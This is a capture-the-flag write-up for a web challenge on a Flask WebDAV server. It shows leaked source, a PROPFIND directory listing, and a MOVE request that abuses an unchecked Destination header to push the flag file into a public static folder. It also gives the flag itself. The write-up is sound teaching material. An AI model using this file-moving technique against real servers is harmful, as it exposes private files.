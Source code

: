 # The Davinci Code
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...

# Flag
flag{2bc76964262b3a1bbd5bc610c6918438}

# Solution
Clicking on the button redirects to `/code` and shows a "Template Not Found" error. Inspecting the errors allows us to see some server code. Interesting lines in `/app/app.py` include:

```python
# File "/app/app.py", line 67, in code
        abort(405)
    abort(404)
 
@app.route('/code')
def code():
    return render_template("code.html")
 
@app.route('/', methods=['GET', 'PROPFIND'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
```

Using Postman to send a PROPFIND request returns this:

```xml
<D:multistatus xmlns:D="DAV:">
    <D:response>
        <D:href>/</D:href>
        <D:propstat>
            <D:prop>
                <D:message>WebDAVinci Code</D:message>
                <D:directory>True</D:directory>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/__pycache__</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>__pycache__</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/templates</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>templates</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/app.py</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>app.py</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/static</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>static</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/the_secret_dav_inci_code</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>the_secret_dav_inci_code</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
</D:multistatus>
```

Exploring the filesystem, there are some files of interest:
```
/the_secret_dav_inci_code/flag.txt
/static/app.py.backup
```

The backup file gives us access to the server source code. See `app-backup.py`. We see that the server serves us any file we request for in the `/static/` directory.

```python
@app.route('/static/<path:filename>')
def static_files(filename):
    return send_from_directory('static', filename)
```


We also find out an API that manages MOVE requests. The request moves a file from a source path (defined in the request parameter) to a destination path  (defined in the "Destination" header).

```python
@app.route('/<path:path>', methods=['GET', 'PROPFIND', 'MOVE'])
def handle_webdav(path):
    full_path = os.path.join(os.getcwd(), path)
    if request.method == 'PROPFIND':
        ...
        ...
    elif request.method == 'MOVE':
        destination = request.headers.get('Destination')
        if destination:
            destination_path = os.path.join(os.getcwd(), destination.strip('/'))
            os.makedirs(os.path.dirname(destination_path), exist_ok=True)
            shutil.move(full_path, destination_path)
            return Response(status=204)
        abort(405)
    abort(404)
```

Constructing a request to move the flag file to `/static/`:

```
MOVE http://challenge.nahamcon.com:31228/the_secret_dav_inci_code/flag.txt

<Standard headers>
Destination: static
```

Visit `http://challenge.nahamcon.com:31228/static/flag.txt` to get the flag.
